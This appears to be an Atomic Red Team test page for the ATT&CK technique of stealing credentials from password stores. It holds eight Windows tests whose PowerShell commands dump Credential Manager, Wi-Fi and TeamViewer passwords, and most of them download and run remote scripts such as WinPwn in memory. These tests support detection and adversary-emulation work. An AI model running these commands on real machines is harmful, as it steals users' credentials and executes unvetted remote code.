 # T1555 - Credentials from Password Stores
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1555)
<blockquote>Adversaries may search for common password storage locations to obtain user credentials.(Citation: F-Secure The Dukes) Passwords are stored in several places on a system, depending on the operating system or application holding the credentials. There are also specific applications and services that store passwords to make them easier for users to manage and maintain, such as password managers and cloud secrets vaults. Once credentials are obtained, they can be used to perform lateral movement and access restricted information.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Extract Windows Credential Manager via VBA](#atomic-test-1---extract-windows-credential-manager-via-vba)

- [Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]](#atomic-test-2---dump-credentials-from-windows-credential-manager-with-powershell-windows-credentials)

- [Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]](#atomic-test-3---dump-credentials-from-windows-credential-manager-with-powershell-web-credentials)

- [Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]](#atomic-test-4---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-windows-credentials)

- [Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]](#atomic-test-5---enumerate-credentials-from-windows-credential-manager-using-vaultcmdexe-web-credentials)

- [Atomic Test #6 - WinPwn - Loot local Credentials - lazagne](#atomic-test-6---winpwn---loot-local-credentials---lazagne)

- [Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials](#atomic-test-7---winpwn---loot-local-credentials---wifi-credentials)

- [Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords](#atomic-test-8---winpwn---loot-local-credentials---decrypt-teamviewer-passwords)


<br/>

## Atomic Test #1 - Extract Windows Credential Manager via VBA
This module will extract the credentials found within the Windows credential manager and dump
them to $env:TEMP\windows-credentials.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 234f9b7c-b53d-4f32-897b-b880a6c9ea7b






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1555\src\T1555-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\windows-credentials.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "word.Application" | Out-Null
  $process = "winword"
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #2 - Dump credentials from Windows Credential Manager With PowerShell [windows Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** c89becbe-1758-4e7d-a0f4-97d2188a23e3






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/TriggerMan-S/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-PasswordVaultCredentials -Force
```






<br/>
<br/>

## Atomic Test #3 - Dump credentials from Windows Credential Manager With PowerShell [web Credentials]
This module will extract the credentials from Windows Credential Manager

**Supported Platforms:** Windows


**auto_generated_guid:** 8fd5a296-6772-4766-9991-ff4e92af7240






#### Attack Commands: Run with `powershell`! 


```powershell
IEX (IWR 'https://raw.githubusercontent.com/TriggerMan-S/Windows-Credential-Manager/4ad208e70c80dd2a9961db40793da291b1981e01/GetCredmanCreds.ps1' -UseBasicParsing); Get-CredManCreds -Force
```






<br/>
<br/>

## Atomic Test #4 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Windows Credentials]
This module will enumerate credentials stored in Windows Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** 36753ded-e5c4-4eb5-bc3c-e8fba236878d






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Windows Credentials" /all
```






<br/>
<br/>

## Atomic Test #5 - Enumerate credentials from Windows Credential Manager using vaultcmd.exe [Web Credentials]
This module will enumerate credentials stored in Web Credentials vault of Windows Credential Manager using builtin utility vaultcmd.exe

**Supported Platforms:** Windows


**auto_generated_guid:** bc071188-459f-44d5-901a-f8f2625b2d2e






#### Attack Commands: Run with `powershell`! 


```powershell
vaultcmd /listcreds:"Web Credentials" /all
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - Loot local Credentials - lazagne
The [LaZagne project](https://github.com/AlessandroZ/LaZagne) is an open source application used to retrieve lots of passwords stored on a local computer. 
Each software stores its passwords using different techniques (plaintext, APIs, custom algorithms, databases, etc.). 
This tool has been developed for the purpose of finding these passwords for the most commonly-used software

**Supported Platforms:** Windows


**auto_generated_guid:** 079ee2e9-6f16-47ca-a635-14efcd994118






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
lazagnemodule -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Wifi Credentials
Loot local Credentials - Wifi Credentials technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** afe369c2-b42e-447f-98a3-fb1f4e2b8552






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
wificreds -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Loot local Credentials - Decrypt Teamviewer Passwords
Loot local Credentials - Decrypt Teamviewer Passwords technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** db965264-3117-4bad-b7b7-2523b7856b92






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
decryptteamviewer -consoleoutput -noninteractive
```






<br/>

